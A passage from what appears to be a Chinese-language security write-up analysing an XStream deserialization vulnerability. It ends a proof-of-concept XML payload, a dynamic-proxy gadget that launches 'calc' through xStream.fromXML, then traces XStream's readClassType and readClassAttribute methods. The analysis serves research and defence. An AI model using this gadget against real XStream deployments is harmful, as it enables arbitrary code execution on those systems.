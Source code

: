```
                "                    <string>calc</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "            <action>start</action>\n" +
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>";
        xStream.fromXML(xml);
    }



}
```

![image-20220516225015741](images/10.png)

## 漏洞分析

从fromXML下断点一路跟到了TreeUnmarshaller#start

![image-20220516225203624](images/11.png)

跟进readClassType来获取对应节点的class

```java
public static Class readClassType(HierarchicalStreamReader reader, Mapper mapper) {
    String classAttribute = readClassAttribute(reader, mapper);
    Class type;
    if (classAttribute == null) {
        type = mapper.realClass(reader.getNodeName());
    } else {
        type = mapper.realClass(classAttribute);
    }

    return type;
}
```

跟进readClassAttribute

```java
public static String readClassAttribute(HierarchicalStreamReader reader, Mapper mapper) {
    String attributeName = mapper.aliasForSystemAttribute("resolves-to");
    String classAttribute = attributeName == null ? null : reader.getAttribute(attributeName);
    if (classAttribute == null) {
        attributeName = mapper.aliasForSystemAttribute("class");
        if (attributeName != null) {
            classAttribute = reader.getAttribute(attributeName);
        }
    }

    return classAttribute;
}
```
